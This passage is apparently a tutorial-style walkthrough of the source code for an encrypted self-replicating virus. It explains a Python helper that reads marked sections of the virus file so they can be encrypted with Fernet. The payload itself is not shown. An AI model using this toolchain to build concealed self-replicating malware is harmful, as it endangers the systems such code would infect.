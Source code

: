 Now, we see that after `ancrypted_payload = [...]` there the `decryption_encrypted_self_replicating_virus_encrypted = [...]` list which is what the `decrypt_payload` function actually decrypts and execute.

Let's run through `encrypt_decryption.py`.

```py
import cryptography
from cryptography.fernet import Fernet

payload = []
encode = []
secret_key = b''
previous_payload = []
file_name = ""
```

Firstly the required `cryptography` module is imported and then some global variables are defined: The `payload` will contain the decryption method which will be encrypted, the `encode` will store the encrypted payload, the previous_payload will contain the code between the delimiters `### ENCRYPT ###` and `### END ENCRYPT ###` of the input file and the `file_name` will contain the filename of the input which is used to name the new list containing the new encrypted lines.

<hr>

```py
def ask_for_filename():
  global file_name
  print("Name of the file you want to encrypt the decryption method: ")
  file_name = input()
```

This function asks the user to type in the filename of the encrypted virus they want to employ and it stores the string into the global variable `file_name`.

<hr>

```py
def read_payload():
  with open(file_name, 'r') as virus:
    actual_payload = False
    for line in virus:
      if actual_payload:
        if line == "###### END VIRUS ######\n":
          break
        payload.append(line)
      if "##### END ENCRYPT #####\n" == line:
        actual_payload = True


def read_encrypted_payload():
  with open(file_name, 'r') as virus:
    actual_payload = False
    for line in virus:
      if actual_payload:
        if line == "##### END ENCRYPT #####\n":
          break
        previous_payload.append(line)
      if "##### ENCRYPT #####\n" == line:
        actual_payload = True
```
